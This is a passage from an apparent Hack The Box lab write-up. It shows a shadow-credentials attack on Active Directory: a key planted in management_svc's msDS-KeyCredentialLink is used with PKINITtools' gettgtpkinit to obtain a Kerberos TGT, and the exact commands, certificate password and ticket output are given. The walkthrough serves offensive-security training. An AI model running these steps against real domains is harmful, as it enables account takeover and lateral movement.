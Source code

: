 ```bash
[*] Must be used with password: oANpwVqVEGdppJjpLxil
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```
![certificate_pfx](./screenshots/certificate_pfx.png)

> Having a record with a **public key** in the `msDS-KeyCredentialLink` attribute of the `management_svc` user I can request a **kerberos ticket** - `TGT` on his behalf using
> authentication by my certificate containing the private key.

> I use the python script `gettgtpkinit` from the `PKINITtools` set:

```bash

sudo python3 gettgtpkinit.py -cert-pfx sZBxFbe3.pfx -pfx-pass 'oANpwVqVEGdppJjpLxil' -dc-ip 10.10.11.41 certified.htb/management_svc management_svc.ccache

```
> Result:

```bash

2025-06-25 21:27:25,941 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-25 21:27:25,957 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-25 21:27:38,207 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-25 21:27:38,207 minikerberos INFO     5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33
INFO:minikerberos:5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33
2025-06-25 21:27:38,214 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```
![management_svc_ccache](./screenshots/management_svc_ccache.png)

> I get `.ccache` file and `session key` - `5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33`

---
> **Note:** `ccache` is `credential cache` - cache of kerberos tickets. That is the file in which `TGT` itself is stored
---

> I add the received `ccache` file to the `KRB5CCNAME` variable to tell the kerberos utilities where to look for the file with `TGT`:
